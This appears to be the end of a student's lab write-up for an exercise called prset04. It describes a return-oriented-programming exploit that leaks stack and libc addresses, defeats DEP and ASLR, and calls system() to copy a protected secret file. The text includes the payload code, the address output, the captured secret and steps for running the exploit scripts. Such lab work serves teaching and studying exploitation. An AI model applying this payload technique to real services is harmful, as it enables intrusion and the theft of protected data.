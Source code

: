 First address is positioned as 3rd pointer=`0x7fff1ffd1660`
Second address is the 5th = `0x7f31be089bc8`

Calculating needed offsets, and actually included a way to print all of this..

```
spatialisotope@prset04:~/rop$ python2 ropexploit.py -p -memory-port 1111
stack=0x7fff1ffd1660+ 0x30
libc=0x7f31be089bc8- 0xe0bbc8
&buf=0x7fff1ffd1690
&libc=0x7f31bd27e000
&system=0x7f31bd2c4640
```

# Final Attempt

Now we got everything working, evading DEP + ASLR with precise locations, we only need to craft the payload.  Giving the issue of not been able to direct stdin/stdout using dup2, I managed to find easier way around this and not even needed to interact with a shell. We know the location of the file, so that’s pretty easy to just cat  /usr/local/share/prset04.secret and write somewhere we can access. 

Here how is the exploit looks like:

```
def csystem():
        return pack('<QQQ', poprdi_addr,  buf_addr, system_addr)


command = "cat /usr/local/share/prset04.secret > /home/spatialisotope/rop/secret\x00"
buf = '/bin/sh\x00'  + command  +  '\x90' * (buf_len-len(command)) + csystem()
```

For some reason, probably because the sloppy implementation of the code, it doesn’t read the first 8 bytes, so the first 8 bytes could be anything.


Then we just need to created a file secret, with write access. And there you have it.
```
spatialisotope@prset04:~/rop$ cat secret 

DzhkOBHQHq+x5lzSX2TJd4r+orFm+KQdf4gBepISBXM=
```

One way was to check whether I was able to make the exploit with correct addresses or not by looking at stat /usr/local/share/prset04.secret this was I was checking whenever the access time changed, it means we got it successfully.

# How to test my exploit 

right now although it's build in to just give it a port and do the reset, i had some issues with piping.
so First determine addresses using `memory_disc.py - port 12000` Then use those addresses first one as `-stack` and second one as `-libc` arguments to my `ropexploit.py`  
